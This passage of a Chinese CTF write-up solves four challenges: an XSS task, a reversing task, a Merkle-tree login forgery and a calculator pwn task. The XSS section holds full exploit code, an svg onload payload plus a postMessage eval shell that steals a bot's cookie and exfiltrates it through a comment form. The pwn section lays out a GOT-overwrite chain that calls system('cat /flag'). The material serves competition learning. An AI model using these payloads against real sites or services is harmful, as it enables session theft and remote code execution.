- 漏洞网站在web上，而我们的网页挂载在localhost上，两者处于不同的源。因此基于浏览器的同源安全策略，不能用window, iframe等直接访问对方DOM内容，用fetch/XHR访问时不能携带cookie
- 本题的bot没有回显，没有外网，唯一的输出通道就是漏洞网站本身，而bot和我们处于不同的session，它对网站的修改我们是看不到的（甚至于一开始我都不知道bot的session是不是真的和我们不一样，也许id参数会给它一样的session也说不定呢）

首先解决跨域的问题。跨域通信有很多奇技淫巧，但是最正统的方法应该还是`postMessage`API，可以向对方发送一段字符串，对方可以监听`message`事件后用一个回调函数处理这个发送的字符串。这个通信是双向的，父窗口可以用`window.open`返回对象访问子窗口，而子窗口也可以用`window.opener`返回父窗口。为了方便调试，我实现了一个shell的功能，子窗口直接eval父窗口的命令，然后把结果返回去。因为后续命令会包含fetch等异步函数，所以这个shell也必须是一个异步的。我的实现如下：
```js
// 把回车缩进去掉变成一行塞到URL的#后面
w=window.opener;
window.addEventListener("message",(e)=>{
    console.log(e.data);
    eval("async ()=>{"+e.data+"}")().then(
        m=>w.postMessage(m, "*")
    )});
w.postMessage("OK:web","*");
```
这样一来，我们就可以在localhost源发送代码到web源执行，再也不用担心#后面代码过长导致的问题了。

接下来解决传回数据的问题。我一开始想了很多办法修改自己的cookie，想着既然跨域不能在headers里加cookie，那同源总可以了吧？结果不行，浏览器根本不鸟我（最重要的是这个在本地环境是无法直接测出来的，我不可能有两套合法的cookie除非作弊）。后来突发奇想，如果我在web上重新用我自己token登录，会怎么样？终于成功换成了我自己的session。注意重新登录后cookie被清理了，所以在此之前我们要先把flag拿到父窗口，然后手动输入进子窗口的表单里，这里会遇到评论区25字符+WAF限制（有%哦）。最后我的方案是直接base64编码，分段传进去。

```html
<title>testXSS</title>
<h1 id="h1">test</h1>

<script>
const sleep = ms => new Promise(r => setTimeout(r, ms));

post_cookie = () => {
    document.querySelector("textarea.form-control").value = '"+document["cookie"]+"';document.querySelector("form").submit()
}
var my_token = "<mytoken>"

// var HOST = "202.38.93.111:10051"
var HOST = "web"
var xssshell = "<svg/onload=eval(decodeURI(location.hash.substring(1)));></svg>"

var steal_cookie = '';
var steal_cookie_b64 = '';

var otherwin = window.open(`http://${HOST}/result#w=window.opener;window.addEventListener("message",(e)=>{console.log(e.data);eval("async ()=>{"+e.data+"}")().then(m=>w.postMessage(m, "*"))});w.postMessage("OK:web","*");`,
xssshell)
sleep(100)

window.addEventListener("message", (e)=>{
    console.log(e.data);

    if(e.data.substr(0,3) == "OK:"){
        // GETSHELL! which one?
        otherwin.postMessage("return 'COOKIE:'+document.cookie", "*");
        
    } else {
        var event = new CustomEvent("xss_res", {detail: e.data})
        window.dispatchEvent(event)
    }
})

window.addEventListener("xss_res", (e)=>{
    if (e.detail == 'NULL'){
        return
    }
    if (e.detail.substr(0, 7) == 'COOKIE:') {
        steal_cookie = e.detail.substr(7);
        steal_cookie_b64 = btoa(steal_cookie);
        console.log(steal_cookie);
        console.log(steal_cookie_b64);
        // try login as me
    otherwin.postMessage(`return fetch("/?token=${my_token}", 
{
    method: "GET"
}).then((resp)=>{
    console.log(resp);
    return "CHANGE:" + resp.status.toString();
})`, "*")

         
    } else if (e.detail.substr(0,7) == 'CHANGE:'){
    // POST next msg
         
         otherwin.postMessage(`return fetch("/result", {
    method: "POST",
    credentials: "include",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "wo zhong yu zuo chu lai le wo hao kai xin"
    },
    body: "comment=${steal_cookie_b64.substr(64, 25 - '"+name+"w'.length)}%22%2Bname%2B%22${HOST.substr(0,1)}"
}).then((resp)=>{
    console.log(resp);
    return "PUTEND:"+resp.status.toString();
})`, "*");
    }
    
})
</script>
<!-- ZmxhZz1mbGFnJTdCeDU1X3N0aWxsX2FsaXZlJTI2JTNEJTNFXyUzQytfMzJjYjkyNzYzNyU3RA== -->
<!-- flag=flag{x55_still_alive&=>_< _32cb927637} -->

EOF
```

## 逆向工程不需要F5
标题是假的，F5还是用的，只是不能只用F5（ghidra用户表示F5是什么？）。

附件解压出来16个dll已经感觉非常重量级了，把main.exe拖进ghidra看着反编译的代码，大脑原地死机



与之相对，程序执行流程非常简单，只有一次输入（容易找到是个vscanf），输入长度是0x26并满足flag格式要求（第一个if之前的两个函数，还是可以勉强看懂的，后面就看不懂了）

直接硬上是非常愚蠢的行为，这个程序很明显用了控制流平坦化的混淆思想，把程序拆到16个DLL里去运行。所以接下来开始去平坦化，我的思路非常简单粗暴，就是把汇编复制出来（具体来说我是直接复制python byte strings然后让pwntools帮我反汇编），加上跳转label并修改掉跳转目标，然后把所有的CALL替换成对应的代码（把CALL, ret和导入CALL地址的几个指令去掉）。整个过程持续3个小时，极其折磨，这是我的[成果](./f5_rev/dump.a)。如果程序再复杂点，我可能就得考虑写自动化工具了（不过不懂DLL要怎么取符号表和偏移，pwntools对windows支持不好，也是一种折磨）。

成形的程序直接dump进二进制文件里，再丢进ghidra反编译，经历几次复制错位置的BUG之后，终于得到了一个完整的程序了（不过毕竟没有ELF结构，输入参数比较抽象，不过有栈地址倒也能看）之后就相对简单了，倒着看的话，程序最后一步是逐字节和某个key相乘了几次，只要key是奇数就可以用模数域的逆元解决。然后把字符串当成short数组，每2字节异或操作。接下来是当成int数组做乘法，当成long数组做异或。

第一步就比较关键了，反编译甚至给了我两个我没见过的符号`ZEXT816`和`SUB168`，以至于我一直没搞明白为什么一个long能右移0x40。
```c
  for (local_160 = 0; local_160 < 4; local_160 = local_160 + 1) {
    for (local_164 = 0; local_164 < 2; local_164 = local_164 + 1) {
      uVar4 = (ulonglong)(int)(local_160 << 4 ^ 0x55aa00ff);
      lVar5 = (longlong)local_164;
      uVar1 = auStack_d3[lVar5 * 2];
      uVar2 = auStack_d3[lVar5 * 2 + 1];
      auVar3 = ZEXT816(uVar1) * ZEXT816(uVar4);
      auStack_d3[lVar5 * 2] = SUB168(auVar3,0);
      auStack_d3[lVar5 * 2 + 1] =
           SUB168(auVar3 >> 0x40,0) + uVar1 * ((longlong)uVar4 >> 0x3f) + uVar2 * uVar4;
    }
  }
```
最后查到[github上一个issue](https://github.com/NationalSecurityAgency/ghidra/issues/2916)，这才知道原来这是64位整数到128位整数的一个拓展，原先C没有这种语法，而引入这种语法会让反编译代码变得简单，这一步实际上也是一个看作128位整数和key相乘的过程，也很容易求出逆元（中间那个右移0x3f确实是纯干扰项，那项一定为0）。
[逆向flag过程](./f5_rev/rev_f5.py)附在这里。其实没什么技术含量，就是折磨。逆向到半夜，天哪。

> 赛后补充：我之前没听说过angr，现在听说了，谢谢

## O(1)用户登录系统
因为题目背景设定比较有趣所以做起来不困的一个math/Crypto（？）

从没听过merkle tree，仔细读了一遍源码直呼思路巧妙。这实际上是一个二叉树，对于所有输入条目，在二叉树的所有叶子节点存储hash值，然后每个父节点由两个子节点的hash值按序排列后hash得到，直到根节点，然后记录根节点，把每个用户到根节点一路所有兄弟节点的hash连起来作为key返回。验证的时候，如果明文和hash是一致的，那么对明文取hash之后，按key的hash一路hash过去，一定能得到根节点hash。（当然我觉得这个是假的O(1)，毕竟用户越多树也越长，计算散列的时间是O(logN)的）

这种基于hash的安全系统，最怕的就是碰撞攻击，也就是两个不同的数据得到相同的hash。具体到这个题，我们会发现一个漏洞：这个树并没有验证我们token的长度是否相同，即我们可以给出高度和树不同的hash。所以如果我们要伪造一个不存在于用户列表的admin用户，无非就是两种思路：向上伪造，向下伪造。

- 向上伪造：找到两个合法的用户名密码串A,B，使得$H(A).H(B)$是一个合法的用户名:密码串，且用户名为admin
- 向下伪造：找到两个合法的用户名密码串A,B，其中A以`admin:`开头，使得$H(A).H(B)$的合法用户名:密码串。

很容易发现向下伪造凭空少一个约束条件`admin:`，平均时间约少$2^{40}/2^{6}$倍（有人一上来就去爆破更难的那种，我不说是谁）。值得注意这个题用户名密码可以是不可打印字符，只要能解码，不是回车/冒号就行，可以增大爆破概率。我爆出来这两个可以用的
```
admin:Lysithea5a76f79c775b11eea0b19c29762f6781
admin:Lysitheae8f590aa775b11eea53a9c29762f6781
```
利用这两个得到的父节点是一个满足条件的用户名密码，把它输入系统就可以用这两个用户名密码之一登录啦。

## It's my Calculator!!!!!
这个题给了一个带存取功能的计算器程序和源代码，涉及到的flex和bison我都没听说过。不过看了编译过程，似乎会先编译成中间的C语言，再编译成可执行程序的。这种用第三方框架的题，多半不是攻击第三方框架，而是攻击题目给的代码的。好在`.l`和`.y`文件可读性足够好。

我目前理解是这个程序定义了一个语法树和对于的执行逻辑。l文件是给出了一些token的定义，以及如何匹配一个token。y文件给出了如何把一长串命令拆分成token与token之间的运算，并且定义了得到返回值的处理逻辑，是C语言写的，可以在中间态C语言找到对应代码。

进行一些试玩（可以考虑Makefile里加调试参数看语法树解析过程），会发现这个模式匹配有点僵硬，比如-1这样的数就是不合法的模式，必须要写成0-1。重点关注的GET和PUT的第一个操作数，即地址，只能是NUMBER，也就是0-9构成的字串，经过atoi得到，而不能是包含其他字符的表达式。PUT和GET有个简单的数组越界判断，但是很容易发现它们没考虑序号为负数的情况，而且atoi这个函数也有整数溢出问题（或者说这个函数本来返回的是unsigned int），只要输入大于$2^{31}-1$的数，它就会返回负数，这样就实现了缓冲区溢出，我们可以访问比数组更低地址的内容。

放在ghidra里看一下，发现给的程序保留了符号表。我们最关心的缓冲区位于.bss段，而它的楼上就是.got.plt段，也就是GOT表所在的地址。再加上checksec能得到这个题的保护是Partial RELRO，到这里思路已经很清楚了，就是想办法改写GOT表劫持程序执行流程，getshell或者读取文件。唯一问题是这个程序并不是交互的，而是我们交一段代码上去跑完把结果返还回来，但这并没有关系，因为访问特定GOT表项的偏移是固定的，我们可以写死在程序里。至于需要动态计算的偏移地址，你还记得这个程序本身就是个计算器吗？

思路有了，还得看看怎么执行，比较理想状态是直接调用system（这个题可行），如果不太好就得先open再read。无论如何，我们首先得找到一个第一个参数能够被我们控制的函数调用。我找到的调用在`yyerror`函数里，有一个`fprintf(stderr, "error: %s", param_1);`，但是stderr作为一个缓冲区，也是在bss段我们可写的范围内，并且其实平时并不太会被用到。所以我们把stderr指向我们控制的一个字符串，然后把fprintf的GOT表修改成system，手动触发一次报错触发yyerror调用，就达成了任意代码执行。

接下来虽然是常规流程但我也叙述一遍：找到一个已经被用过的函数和没有被用过的函数，前者可以泄露出libc基址（小小的细节问题，题目给了编译时dockerfile，可以build之后把里面的libc拿出来），后者可以泄露出plt段偏移从而泄露PIE，这样能知道缓冲区的地址。然后在缓冲区布置`cat /flag`字符串。之后在stderr布置指向缓冲区对应命令的指针，把fprintf的GOT改成system，触发一次报错，就打印出了flag。我也尝试了`/bin/sh`之后继续从输入流读命令的方法，不过没有成功，可能是计算器本身的缓冲区已经把我的输入全都输进去了？

这个题的flag是`flag{libcue+gnome_track_miners=1clickRCE_CVE-2023-43641_c45f8fa3c8}`，原来是gnome和libcue的一个CVE啊，就一个月还挺新的，回头研究下看看怎么复现。看了下自己Ubuntu的libcue版本，居然在被影响范围内，瑟瑟发抖。啊我不用gnome啊，那没事了（
